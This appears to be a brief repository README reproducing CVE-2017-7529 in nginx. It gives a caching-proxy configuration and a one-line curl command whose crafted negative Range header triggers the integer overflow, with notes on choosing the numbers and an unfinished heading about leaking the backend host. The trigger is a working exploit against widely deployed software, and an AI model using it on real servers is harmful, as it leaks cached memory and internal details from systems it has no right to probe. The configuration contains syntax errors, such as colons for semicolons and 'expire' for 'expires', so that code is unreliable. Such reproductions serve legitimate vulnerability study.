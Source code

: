 # CVE-2017-7529

### nginx config

```
proxy_cache_path /tmp/nginx/cache keys_zone=cache_zone:10m max_size=10G;

server{
    listen      80;
    server_name localhost:

    location /proxy/{
        proxy_pass http://localhost:8080/; 
        add_header X-Proxy-Cache $upstream_cache_status;
        proxy_set_header Host $host;
        proxy_cache cache_zone;
        proxy_cache_valid 200 302 24h;
        proxy_cache_valid any 30m;

        expire 90d;
    }
}

server {
    listen      8080:
    server_name localhost;

    location / {
        root html;
        index index.html index.htm;
    }
}


```

Trigger bug with
```curl -iv http://localhost/proxy/ -r -1000, -9223372036854774808```
- $First_Number: underflow size
- $Second_Number: 0x8000000000000000 - $First_Number

```
# Leak backend api host

```
